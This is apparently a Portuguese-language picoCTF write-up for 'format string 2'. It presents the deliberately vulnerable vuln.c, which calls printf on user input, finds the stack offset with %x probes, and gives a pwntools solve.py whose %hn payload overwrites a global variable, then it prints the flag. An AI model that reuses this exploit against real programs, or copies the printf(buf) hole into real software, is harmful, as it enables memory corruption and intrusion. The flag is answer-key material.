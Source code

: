 # WriteUp: format string 2

## Descrição do Desafio:
**Autor**: SkrubLawd \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/448?category=6&page=1) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Médio \
**Data**: 2024 \
**Descrição**:
> This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must *change* data on the stack!

## Passo a Passo da Solução

### 1. Análise do arquivo fornecido
Este desafio nos fornece tanto o executável como o arquivo fonte. Então, o primeiro passo é analisar o arquivo fonte e ver o que ele tem de interessante para nós.

{% code title="vuln.c" overflow="wrap" lineNumbers="true" %}

```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

{% endcode %}

É um código simples, ele tem uma variável global inicializada com `0x21737573`, e imprimirá a **flag** caso o seu valor seja `0x67616c66`. Se repararmos, logo após inserirmos o *input*, o programa imprime ele, porém ele imprime passando o `buf` diretamente como parâmetro, sem informar as **strings de formato**, abrindo brecha para um possível ataque de *format string*.

### 2. Exploit
Para realizarmos um ataque de *format string*, nesse caso, nós precisamos saber o endereço da variável `sus` e o *offset* no qual o nosso *input* começa a aparecer na pilha.

{% hint style="info" %}

**Nota:** Como a variável `sus` é de escopo global, ela dificilmente estará armazenada na pilha.

{% endhint %}

Para sabermos o endereço da `sus`, precisamos saber inicialmente se o executável contém alguma proteção como o `PIE`.

```bash
└─$ checksec --file=vuln     
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   42 Symbols        No    0               2               vuln
```

E como podemos ver ele não contém, então para pegarmos o endereço da `sus` nós podemos usar a instrução `elf.sym['sus']` do **pwntools** (note que `elf` deve ser declarada anteriormente como `ELF('./vuln')`) ou simplesmente digitar `p &sus` no terminal do **pwndbg**. Com o endereço em mãos, vamos atrás do *offset*, cuja maneira mais fácil de se obter é executar o programa e digitar a sequência `%x-` no *input*, após isso ir contando quantos resultados apareceram antes dos *bytes* dos caracteres do input.

```bash
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x
Here's your input: 402075-0-77c5da00-0-95a2b0-77cafaf0-77c864e8-9-77c86de9-77a57098-77c734d0-0-757657c0-252d7825-2d78252d-78252d78-252d7825-2d78252d-78252d78-252d7825-2d78252d-78252d78-252d7825-2d78252d-77ca0078-77c758d8-77c821d4-0-0-0
sus = 0x21737573
You can do better!
```

No caso, eles começam a aparecer no 14º *offset*.

### 3. Solução
A solução é um tanto simples, devemos escrever `0x67616c66` caracteres e com o formato `%n` salvar no endereço obtido. Porém essa quantidade de caracteres tende a encerrar a execução do programa antes dele imprimir tudo, então dividiremos em duas partes: a parte superior (`6c66`) e a parte inferior (`6761`).

{% hint style="info" %}

**Nota:** A parte superior e inferior estão invertidas em relação ao valor `0x67616c66` por causa do formato `little-endian`.

{% endhint %}

Com essas duas partes, iniciamos o *payload* escrevendo o menor valor, e depois escrevemos o maior valor menos o que já foi imprimido. Após isso, completamos o *payload* com qualquer caractere para a pilha não ficar desalinhada (deve ser sempre múltiplo de 8 se for 64bits). Por fim inserimos os endereços, sendo o endereço original a parte superior e o endereço somado com mais 2 (deslocado 2 *bytes*) a parte inferior.

{% hint style="warning" %}

**Importante:** Os endereços devem estar no final do *payload* pois eles contém *bytes* nulos, que fazem o `printf()` parar de imprimir.

{% endhint %}

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./vuln")
p = remote("ip", porta)

sus = elf.sym['sus'] # Endereço da variável.

payload = b"%26465x%18$hn%1285x%19$hn|||||||" # Escrevendo o payload (no total ocupa 4 offsets).
payload += p64(sus + 2) # Escrevendo o endereço da parte inferior no offset 18
payload += p64(sus) # Escrevendo o endereço da parte superior no offset 19

p.sendlineafter(b"?\n", payload)
print(p.recvall().decode())
```

{% endcode %}

### Flag
`picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
